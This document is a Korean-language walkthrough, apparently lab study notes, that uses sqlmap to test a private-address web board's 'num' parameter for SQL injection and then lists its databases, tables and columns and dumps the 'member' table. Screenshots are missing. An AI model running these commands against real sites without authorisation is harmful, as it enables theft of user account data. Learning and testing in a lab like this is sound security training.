- sqlmap 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap
  ```

  

- 도움말 확인

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -h
  ```

  

  

- 취약점 확인

  

  ```
  ┌──(root㉿kali)-[~]
  └─# sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num"
  ```

  

  

- 데이터베이스 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" --dbs
  ```

  

- 지정된 데이터베이스내의 테이블 목록

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" --tables
  ```

  

- member 테이블의 칼럼

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --column
  ```

  

- member 테이블의 내용을 추출

  ```
  # sqlmap -u "http://172.16.0.111/board/board_view.php?num=40" -p "num" -D "WebTest" -T "member" --dump
  ```

  

- 추출한 내용이 저장된다

  

  